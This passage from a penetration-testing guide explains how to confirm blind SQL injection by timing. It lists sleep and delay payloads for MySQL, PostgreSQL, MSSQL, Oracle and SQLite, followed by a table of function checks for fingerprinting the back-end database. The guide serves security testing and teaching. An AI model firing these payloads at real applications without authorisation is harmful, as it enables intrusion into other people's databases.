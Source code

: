 <br>

### Confirming with Timing
---

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load.\
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

In some cases the **sleep functions won't be allowed**. Then, instead of using those functions you could make the query **perform complex operations** that will take several seconds. _Examples of these techniques are going to be commented separately on each technology (if any)_.

<br>

### Identifying Back-end
---

The best way to identify the back-end is trying to execute functions of the different back-ends. You could use the _**sleep**_ **functions** of the previous section or these ones (table from [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification):

```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
```